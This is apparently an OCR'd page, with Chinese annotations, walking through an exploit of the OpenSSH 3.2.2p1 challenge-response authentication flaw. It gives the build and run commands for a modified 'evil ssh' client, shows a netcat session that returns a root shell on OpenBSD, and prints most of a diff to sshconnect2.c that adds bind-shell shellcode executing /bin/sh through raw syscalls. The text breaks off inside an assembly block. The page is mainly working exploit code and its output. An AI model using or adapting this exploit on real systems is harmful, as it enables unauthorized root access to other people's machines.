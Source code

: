 ``` shell

~/openssh-3.2.2p1 $ ./configure && make ssh

4. Run the evil ssh，这个命令使用编译后的 `ssh` 客户端连接到本地 `localhost` 上的 SSH 服务，并尝试以 `root` 用户身份通过 `skey` 认证进行连接。`root:skey@localhost` 表示尝试以 `root` 用户通过 `skey` 密码方式进行 SSH 登录。这里的“恶意”是指通过利用漏洞来绕过正常的认证过程，尝试获取 root 权限:

~/openssh-3.2.2p1 $ ./ssh root:skey@localhost

5. If the sploit worked, you can connect to port 128 in another terminal:
如果攻击成功，攻击者将能够以 root 权限执行命令。

~ $ nc localhost 128
uname -a
OpenBSD nice 3.1 GENERIC#59 i386
id
uid=0(root) gid=0(wheel) groups=0(wheel)

```

下面这段代码是构造恶意 SSH 客户端的一部分，目的是在攻击中执行特定的 shellcode，绕过正常认证过程，并最终获取 root 权限。
```

--- sshconnect2.c	Sun Mar 31 20:49:39 2002
+++ evil-sshconnect2.c	Fri Jun 28 19:22:12 2002
@@ -839,6 +839,56 @@
 /*
  * parse INFO_REQUEST, prompt user and send INFO_RESPONSE
  */
+
+int do_syscall( int nb_args, int syscall_num, ... );
+
+void shellcode( void )
+{
+    int server_sock, client_sock, len;
+    struct sockaddr_in server_addr;
+    char rootshell[12], *argv[2], *envp[1];
+
+    server_sock = do_syscall( 3, 97, AF_INET, SOCK_STREAM, 0 );
+    server_addr.sin_addr.s_addr = 0;
+    server_addr.sin_port = 32768;
+    server_addr.sin_family = AF_INET;
+    do_syscall( 3, 104, server_sock, (struct sockaddr *) &server_addr, 
16 );
+    do_syscall( 2, 106, server_sock, 1 );
+    client_sock = do_syscall( 3, 30, server_sock, (struct sockaddr *)
+	&server_addr, &len );
+    do_syscall( 2, 90, client_sock, 0 );
+    do_syscall( 2, 90, client_sock, 1 );
+    do_syscall( 2, 90, client_sock, 2 );
+    * (int *) ( rootshell + 0 ) = 0x6E69622F;
+    * (int *) ( rootshell + 4 ) = 0x0068732f;
+    * (int *) ( rootshell + 8 ) = 0;
+    argv[0] = rootshell;
+    argv[1] = 0;
+    envp[0] = 0;
+    do_syscall( 3, 59, rootshell, argv, envp );
+}
+
+int do_syscall( int nb_args, int syscall_num, ... )
+{
+    int ret;
+    asm(
+	"mov	8(%ebp), %eax; "
```
